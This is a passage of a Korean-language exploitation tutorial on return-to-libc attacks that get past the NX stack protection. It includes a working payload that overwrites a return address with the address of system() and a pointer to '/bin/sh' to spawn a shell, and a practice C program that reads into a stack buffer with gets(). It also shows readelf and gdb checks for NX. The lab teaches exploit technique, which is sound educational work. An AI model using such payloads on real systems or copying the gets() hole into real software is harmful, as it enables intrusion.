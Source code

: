 system 함수의 주소(0xf7e3dda0)와 "/bin/sh" 문자열의 주소(0xf7f5ea0b)가 스택에 저장되어 있는 것을 확인해 볼 수 있다. 이를 실제 바이너리의 argv[1]에 넣어 실행해보면 정상적으로 셸이 실행되는 것을 확인할 수 있다.
```
$ ./example1_nx `python -c 'print "A"*36 + "\xa0\xdd\xe3\xf7" + "BBBB" + "\x0b\xea\xf5\xf7"'`
$ id
uid=1001(theori) gid=1001(theori) groups=1001(theori)
$
```
* 실습
```
// system function address : 0xf7e3dda0
// "id" string address : 0xf7f5e988
#include <stdio.h>
int main(void){
    
    char buf[32];
    
    gets(buf);
    return 0;
}
```
payload = "A"*(32+4)+"\xa0\xdd\xe3\xf7"+"B"*4+"\x88\xe9\xf5\xf7"

+) NX bit가 설정되어 있는지 확인하는 바법
- readelf 사용
  ```
  $ readelf -a ./example1 | grep STACK
    GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
  $ readelf -a ./example1_nx | grep STACK
    GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  ```
- 메모리 맵 이용
  ```
  $ gdb -q ./example1
  Reading symbols from ./example1...(no debugging symbols found)...done.
  (gdb) b main
  Breakpoint 1 at 0x8048479
  (gdb) r
  Starting program: ~/example1 
  Breakpoint 1, 0x08048479 in main ()
  (gdb) shell cat /proc/`pidof example1`/maps | grep -i stack
  fffdd000-ffffe000 rwxp 00000000 00:00 0                                  [stack]
  (gdb) 
  ```
  
